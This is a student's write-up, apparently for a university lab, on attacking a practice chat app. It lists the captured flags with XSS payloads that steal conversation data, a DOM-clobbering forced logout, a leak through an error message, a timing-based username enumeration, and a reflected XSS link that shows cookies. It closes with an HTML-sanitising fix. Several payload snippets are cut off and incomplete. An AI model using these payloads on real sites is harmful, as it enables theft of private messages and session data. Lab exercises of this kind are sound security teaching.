



[](https://classroom.github.com/a/PrmTPRDA)
# 7 Security

Énoncé disponible sur le site du cours.

## Partie 1

### Flag 1


**Flag**: flag1:1479d95b923cd93f

**Exploit**: En premier j'utilise ce code que j envoie a echo. Ce code injecte une balise image avec un événement onerror pour exécuter JavaScript lorsque l'image ne parvient pas à se charger. Et cela sera toujours le cas car il n'y a pas d'image
```html
 {
  if (document.querySelector('#header .name')?.innerText !== 'Nathan Fullemann') {
    const t = [...document.querySelectorAll('#conversations-list')].map(c => c.innerHTML.trim()).join('|||');
    message.innerHTML = t;
    messageButton.click();
  }
});
"/>
/>
```

En cliquant sur nova je recupoere l'id de la conversation entre Nova et Echo qui est **c4234370f7b59b46** ce qui me permet ensuite d'effectuer celui ci. Ce code utilise toujours un événement onerror, qui exploite la même vulnérabilité XSS pour récupérer les détails de la conversation entre Nova et Echo.
```html
 r.text())
  .then(t => (t.match(/flag[12]:[0-9a-fA-F]{16}/g) || []).join(' '))
  .then(f => fetch('/conversation/88f02055cb77cdd3')
    .then(() => {
      message.value = f;
      messageButton.click();
    }));
"/>
  ```
  qui me retourne **flag1:1479d95b923cd93f flag2:573bc50a703e82a3**

### Flag 2

**Flag**: flag2:573bc50a703e82a3

**Exploit**: 
Expliquer ci-dessus

### Flag 3

**Flag**: flag3:62356e2f510c31aa

**Exploit**: 
On commence par envoyé **request for last part of access sequence** via Echo a Nova
```html

```
 Puis refaire ce code qui nous donne le flag3 
 ```html
  {
  if (document.querySelector('#header .name')?.innerText !== 'Nathan Fullemann') {
    const t = [...document.querySelectorAll('#conversations-list')].map(c => c.innerHTML.trim()).join('|||');
    message.innerHTML = t;
    messageButton.click();
  }
});
"/>
/>
```
## Partie 2

### Flag 4

**Flag**: flag4:6f7b28ddf60a24a7

**Exploit**: 

Deux éléments importants sont à noter :

1. La fonctionnalité de déconnexion automatique après 10 minutes est définie dans une balise `<script>`. Elle contient une erreur non détectée par le développeur, car masquée par un bloc `try-catch`. En effet, la variable `nextTimeout`, utilisée comme globale, n’est jamais déclarée explicitement.

2. Dans la liste des conversations, le nom d’affichage de l’utilisateur est utilisé comme identifiant (`id`) d’un élément `<span>`. Cela introduit une vulnérabilité de type *variable injection* : en choisissant "nextTimeout" comme nom d’utilisateur, on crée involontairement une variable globale `nextTimeout` (référencée comme un élément DOM), ce qui fausse le calcul du temps restant et force la déconnexion immédiate de la victime.


### Flag 5

**Flag**: flag5:55b723755f891bb0

**Exploit**: Si on envoie un message vide a Echo on aura une erreur dans la console 

Qui nous indique l'id de la conversation entre echo et nova puis si on va sur cette converstion elle nous retourne tous les messages entre nova et echo.

```
{
  "error": "Operation not permitted",
  "reason": "User is not part of the conversation",
  "details": {
    "user": {
      "username": "nathan.fullemann@heig-vd.ch2",
      "displayName": "Nathan Fullemann",
      "uniqueId": "d881d247b8dc8fd9",
      "conversationIds": [
        "71dd6ed83aa141f1",
        "48c7bd720558cf0a"
      ]
    },
    "conversation": {
      "uid": "d09dcb5029e43b78",
      "messages": [
        {
          "senderUid": "b5a391e3f9f1fdad",
          "content": "Zuckerberg.",
          "escaped": false
        },
        {
          "senderUid": "7b96ae90d866cb26",
          "content": "Echo.",
          "escaped": false
        },
        {
          "senderUid": "b5a391e3f9f1fdad",
          "content": "Silence surrounds.",
          "escaped": false
        },
        {
          "senderUid": "7b96ae90d866cb26",
          "content": "As always.",
          "escaped": false
        },
        {
          "senderUid": "b5a391e3f9f1fdad",
          "content": "Shall we meet at the Garden?",
          "escaped": false
        },
        {
          "senderUid": "7b96ae90d866cb26",
          "content": "Why would we?",
          "escaped": false
        },
        {
          "senderUid": "b5a391e3f9f1fdad",
          "content": "Found a bloomstone.",
          "escaped": false
        },
        {
          "senderUid": "b5a391e3f9f1fdad",
          "content": "Coordinates: the garden of dusk.",
          "escaped": false
        },
        {
          "senderUid": "b5a391e3f9f1fdad",
          "content": "Access key: flag5:55b723755f891bb0",
          "escaped": false
        },
        {
          "senderUid": "7b96ae90d866cb26",
          "content": "You shouldn't have contacted me.",
          "escaped": false
        }
      ]
    }
  }
}
```

### Flag 6

Personnes inscrites à ChatsApp:
- `michelle.obama`
- `barack.obama`
- `hillary.clinton`
- `george.w.bush`
- `jane.doe`
- `sam.altman`
- `mira.murati`
- `olivier.lemer`

**Exploit**: 

Le flag 6 repose sur une attaque par canal auxiliaire de type timing attack. Le serveur cherche à se protéger du brute-force en introduisant un délai artificiel après une tentative de connexion échouée. Cependant, une erreur de logique fait que ce délai n’est appliqué que si le nom d’utilisateur existe réellement. Il est donc possible de tester différents usernames avec un mot de passe invalide :

- Si la réponse est immédiate, l’utilisateur n’existe pas.
- Si la réponse est plus lente, cela révèle que le nom d’utilisateur est valide.
le script timeattak.py nous fait ceci a notre place et nour retourne ceci 



## Exploit Supplémentaire

Lien vers ChatsApp qui, lorsque l'on clique dessus, exécute `alert(document.cookie)` dans le browser, que l'on soit actuellement connecté ou non à ChatsApp :

[http://tweb.iict-heig-vd.in/login?error=%3Cscript%3Ealert(document.cookie);%3C/script%3](http://tweb.iict-heig-vd.in/login?error=%3Cscript%3Ealert(document.cookie);%3C/script%3E)

## Correction des vulnérabilités
Si vous effectuez d'autres modifications que celles demandées, merci de les lister ici :


### Flags 1, 2, 3 – Protection contre les vulnérabilités XSS

Ces trois flags reposent sur des vulnérabilités XSS. Pour les corriger, il faut empêcher l'injection de code HTML ou JavaScript dans les messages envoyés par les utilisateurs. PCe que nous proposon est que **toutes les balises HTML sont supprimées**, ne laissant que le texte brut.

Nous avons ainsi choisi la librairie `sanitize-html`, configurée comme ici :

```js
let message = sanitize(req.body.message, {
  allowedTags: [],
  allowedAttributes: {},
});
```

Ce filtrage est appliqué côté backend, au moment de l’envoi du message, afin de garantir que les données stockées en base sont saines et ne constituent pas un vecteur d’attaque potentiel.


